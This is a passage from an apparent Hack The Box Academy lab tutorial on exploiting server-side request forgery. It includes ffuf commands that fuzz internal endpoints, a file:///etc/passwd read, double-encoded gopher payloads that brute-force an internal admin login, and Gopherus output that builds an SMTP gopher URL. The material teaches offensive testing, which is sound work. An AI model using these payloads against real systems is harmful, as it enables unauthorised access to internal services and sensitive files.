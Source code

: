 After discussing how to identify SSRF vulnerabilities and utilize them to enumerate the web server, let us explore further exploitation techniques to increase the impact of SSRF vulnerabilities.

---

## Accessing Restricted Endpoints

As we have seen, the web application fetches availability information from the URL `dateserver.htb`. However, when we add this domain to our hosts file and attempt to access it, we are unable to do so:

   

![](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_exploit_1.png)

However, we can access and enumerate the domain through the SSRF vulnerability. For instance, we can conduct a directory brute-force attack to enumerate additional endpoints using `ffuf`. To do so, let us first determine the web server's response when we access a non-existing page:

![image](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_exploit_2.png)

As we can see, the web server responds with the default Apache 404 response. To also filter out any HTTP 403 responses, we will filter our results based on the string `Server at dateserver.htb Port 80`, which is contained in default Apache error pages. Since the web application runs PHP, we will specify the `.php` extension:

  Exploiting SSRF

```shell-session
anasec@htb[/htb]$ ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80"

<SNIP>

[Status: 200, Size: 361, Words: 55, Lines: 16, Duration: 3872ms]
    * FUZZ: admin
[Status: 200, Size: 11, Words: 1, Lines: 1, Duration: 6ms]
    * FUZZ: availability
```

We have successfully identified an additional internal endpoint that we can now access through the SSRF vulnerability by specifying the URL `http://dateserver.htb/admin.php` in the `dateserver` POST parameter to potentially access sensitive admin information.

---

## Local File Inclusion (LFI)

As seen a few sections ago, we can manipulate the URL scheme to provoke further unexpected behavior. Since the URL scheme is part of the URL supplied to the web application, let us attempt to read local files from the file system using the `file://` URL scheme. We can achieve this by supplying the URL `file:///etc/passwd`

![image](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_exploit_3.png)

We can use this to read arbitrary files on the filesystem, including the web application's source code. For more details about exploiting LFI vulnerabilities, check out the [File Inclusion](https://academy.hackthebox.com/module/details/23) module.

---

## The gopher Protocol

As we have seen previously, we can use SSRF to access restricted internal endpoints. However, we are restricted to GET requests as there is no way to send a POST request with the `http://` URL scheme. For instance, let us consider a different version of the previous web application. Assuming we identified the internal endpoint `/admin.php` just like before, however, this time the response looks like this:

![image](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_exploit_4.png)

As we can see, the admin endpoint is protected by a login prompt. From the HTML form, we can deduce that we need to send a POST request to `/admin.php` containing the password in the `adminpw` POST parameter. However, there is no way to send this POST request using the `http://` URL scheme.

Instead, we can use the [gopher](https://datatracker.ietf.org/doc/html/rfc1436) URL scheme to send arbitrary bytes to a TCP socket. This protocol enables us to create a POST request by building the HTTP request ourselves.

Assuming we want to try common weak passwords, such as `admin`, we can send the following POST request:

Code: http

```http
POST /admin.php HTTP/1.1
Host: dateserver.htb
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

adminpw=admin
```

We need to URL-encode all special characters to construct a valid gopher URL from this. In particular, spaces (`%20`) and newlines (`%0D%0A`) must be URL-encoded. Afterward, we need to prefix the data with the gopher URL scheme, the target host and port, and an underscore, resulting in the following gopher URL:

```
gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin
```

Our specified bytes are sent to the target when the web application processes this URL. Since we carefully chose the bytes to represent a valid POST request, the internal web server accepts our POST request and responds accordingly. However, since we are sending our URL within the HTTP POST parameter `dateserver`, which itself is URL-encoded, we need to URL-encode the entire URL again to ensure the correct format of the URL after the web server accepts it. Otherwise, we will get a `Malformed URL` error. After URL encoding the entire gopher URL one more time, we can finally send the following request:

Code: http

```http
POST /index.php HTTP/1.1
Host: 172.17.0.2
Content-Length: 265
Content-Type: application/x-www-form-urlencoded

dateserver=gopher%3a//dateserver.htb%3a80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3a%2520dateserver.htb%250D%250AContent-Length%3a%252013%250D%250AContent-Type%3a%2520application/x-www-form-urlencoded%250D%250A%250D%250Aadminpw%253Dadmin&date=2024-01-01
```

As we can see, the internal admin endpoint accepts our provided password, and we can access the admin dashboard:

![image](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_exploit_5.png)

We can use the `gopher` protocol to interact with many internal services, not just HTTP servers. Imagine a scenario where we identify, through an SSRF vulnerability, that TCP port 25 is open locally. This is the standard port for SMTP servers. We can use Gopher to interact with this internal SMTP server as well. However, constructing syntactically and semantically correct gopher URLs can take time and effort. Thus, we will utilize the tool [Gopherus](https://github.com/tarunkant/Gopherus) to generate gopher URLs for us. The following services are supported:

- MySQL
- PostgreSQL
- FastCGI
- Redis
- SMTP
- Zabbix
- pymemcache
- rbmemcache
- phpmemcache
- dmpmemcache

To run the tool, we need a valid Python2 installation. Afterward, we can run the tool by executing the Python script downloaded from the GitHub repository:

  Exploiting SSRF

```shell-session
anasec@htb[/htb]$ python2.7 gopherus.py

  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

                author: $_SpyD3r_$

usage: gopherus.py [-h] [--exploit EXPLOIT]

optional arguments:
  -h, --help         show this help message and exit
  --exploit EXPLOIT  mysql, postgresql, fastcgi, redis, smtp, zabbix,
                     pymemcache, rbmemcache, phpmemcache, dmpmemcache
```

Let us generate a valid SMTP URL by supplying the corresponding argument. The tool asks us to input details about the email we intend to send. Afterward, we are given a valid gopher URL that we can use in our SSRF exploitation:

  Exploiting SSRF

```shell-session
anasec@htb[/htb]$ python2.7 gopherus.py --exploit smtp

  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

                author: $_SpyD3r_$


Give Details to send mail: 

Mail from :  attacker@academy.htb
Mail To :  victim@academy.htb
Subject :  HelloWorld
Message :  Hello from SSRF!

Your gopher link is ready to send Mail: 

gopher://127.0.0.1:25/_MAIL%20FROM:attacker%40academy.htb%0ARCPT%20To:victim%40academy.htb%0ADATA%0AFrom:attacker%40academy.htb%0ASubject:HelloWorld%0AMessage:Hello%20from%20SSRF%21%0A.

-----------Made-by-SpyD3r-----------
```

